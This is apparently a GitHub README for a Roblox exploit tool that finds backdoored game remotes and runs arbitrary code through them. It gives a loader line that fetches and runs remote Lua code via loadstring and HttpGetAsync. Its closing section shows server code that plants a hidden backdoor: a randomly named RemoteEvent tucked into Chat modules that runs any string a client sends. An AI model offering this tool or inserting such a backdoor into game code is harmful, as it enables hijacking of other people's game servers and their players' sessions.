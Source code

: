 # backdoor-executor.lua
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe).

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing them within a gui.
### Requirements
- A non skiddy brain that needs help for dumb reason
- Decent executor that supports filesystem functions (for config)
### Script
Just use the script below and execute it.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```
### Config Help
- My config has reset back to original
> The config will reset to the original config if the configVer is lower than the original config so you should always backup your config to prevent config resets
- Adding cache example
```lua
[placeid] = {
	["Path"] = "remote.path.here", -- this is the path of the remote, don't do remote.path["here"] or it will not work
	["Args"] = {"arg1here", "source"}, -- source shouldn't be deleted because its a arg for scripts that will be executed
	["Func"] = function(source) -- use this if a game has a custom encryption for source
		return source
	end
}
```
> if the cache didn't work backdoor-executor.lua will warn u that the cache is outdated
- Using autoexecute
> add a script inside the autoExecute table, you can put many code as long as you want inside the table
```lua
["autoExec"] = {
	[[print("jLn0n is epic!")]],
	[[warn("backdoor-executor.lua needs a new name!")]]
},
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptService`. (credits to [backdoor.exe](https://github.com/iK4oS/backdoor.exe) for copying this thingy.)
```lua
local Remote = Instance.new("RemoteEvent")
Remote.Name = tostring(math.random(1e10,1e10))
Remote.Parent = game:GetService("Chat"):WaitForChild("ClientChatModules").MessageCreatorModules
Remote.OnServerEvent:Connect(function(player, execute)
	loadstring(execute)()
end)
```
